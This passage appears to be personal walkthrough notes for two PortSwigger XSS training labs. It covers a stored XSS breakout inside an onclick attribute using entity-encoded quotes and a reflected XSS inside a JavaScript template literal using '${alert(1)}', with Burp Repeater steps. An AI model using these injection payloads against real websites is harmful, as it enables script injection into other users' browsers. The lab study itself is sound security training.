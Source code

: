 ```bash

Email:

email@email.com

Website:

http://123456

Click "Post Comment"
Send to repeater
Intercept is off
Click "Back to Blog"
Intercept is on
Refresh the page
Send to repeater
Intercept is off

<a id="author" href="http://123456" onclick="var tracker={track(){}};tracker.track('http://123456');">name

Change:

Website:

http://1212?&&apos;-alert(1)-&apos;

Click "Back to Blog"
Click on the last occurrence of username "name"

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519223557.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519223652.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519224327.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519224403.png)

#### Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
```bash

# This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the `alert` function inside the template string.

Enter into search "test"

Response:

var message = `2 search results for 'test'`;

Note the template literal

Enter into the search "${alert(1)}"

```
